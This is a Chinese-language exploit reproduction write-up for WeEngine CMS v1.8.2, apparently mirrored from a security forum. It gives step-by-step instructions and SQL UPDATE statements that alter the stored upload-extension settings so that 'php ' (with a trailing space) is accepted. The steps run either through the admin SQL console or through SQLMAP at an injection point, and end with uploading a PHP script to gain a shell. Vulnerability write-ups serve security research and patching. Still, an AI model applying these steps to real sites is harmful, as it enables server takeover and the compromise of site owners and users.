 # 微擎cms v1.8.2 后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3367](https://www.zhihuifly.com/t/topic/3367)

# 微擎cms v1.8.2 后台getshell

## 一、漏洞简介

## 二、漏洞影响

v1.8.2（201812130002）

## 三、复现过程

站点-附件设置-支持文件后缀

![image](img/678e73524f8219d7443c3010a17dc2cc.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![image](img/831d45694b99c584b138baff261a65e4.png)

直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值

```
a:3:{s:16:"attachment_limit";  
i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
"width";i:800;s:10:"extentions";  
a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

### 漏洞利用

写入任意字符

![image](img/2e87d66ad7c4880ce92f27c9ef5f0fb8.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)

```
UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ') 
```

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下 有用户权限能够上传,尝试直接在SQLMAP执行语句

```
UPDATE `ims_core_settings` SET
`key` = 'upload',
`value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
s:5:\"width\";i:800;s:10:\"extentions\";  
a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
s:5:\"limit\";i:5000;}s:5:\"audio\";  
a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin; 
```

![image](img/c724c0074936d3c1ee66c15083469e7a.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

执行完毕-系统-更新缓存

![image](img/8b70aea90b355975486592daf75f6540.png)

### 上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![image](img/b1b6fba36c0ac32ab66399d753e17a94.png)

## 四、参考链接

> https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html